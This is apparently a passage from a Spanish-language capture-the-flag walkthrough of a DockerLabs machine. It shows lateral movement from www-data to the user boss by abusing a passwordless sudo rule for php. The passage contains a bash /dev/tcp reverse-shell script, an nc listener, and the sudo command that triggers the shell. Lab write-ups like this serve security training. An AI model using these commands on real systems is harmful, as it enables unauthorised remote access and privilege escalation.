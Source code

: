 ```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ export SHELL=bash
www-data@kali:/var/www/cinema.dl/andrewgarfield$ stty rows 42 columns 172
```

```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
www-data@kali:/$ cat /etc/passwd | grep bash$
root:x:0:0:root:/root:/bin/bash
boss:x:1001:1001:boss,,,:/home/boss:/bin/bash
```

`www-data` puede ejecutar `php` como el usuario `boss` sin necesidad de contraseña.

```terminal
www-data@kali:/$ sudo -l
Matching Defaults entries for www-data on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on kali:
    (boss) NOPASSWD: /bin/php
```

<https://gtfobins.github.io/gtfobins/php/#sudo>

Creó un script para obtener una conexión reversa al usuario `boss`.

```terminal
www-data@kali:/$ echo 'bash -i >& /dev/tcp/192.168.0.171/4322 0>&1' > /tmp/shell.sh

www-data@kali:/$ chmod +x /tmp/shell.sh
```

```terminal
/home/kali/Documents/dockerlabs/cinehack:-$ nc -nvlp 4322
	listening on [any] 4322 ...
```

De esta forma, ejecuto el script con `php` y obtengo acceso al usuario `boss`.

```terminal
www-data@kali:/$ sudo -u boss /bin/php -r "system('bash /tmp/shell.sh');"

	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 48490


boss@kali:/var/www/cinema.dl/andrewgarfield$ id
uid=1001(boss) gid=1001(boss) groups=1001(boss),100(users)
```

---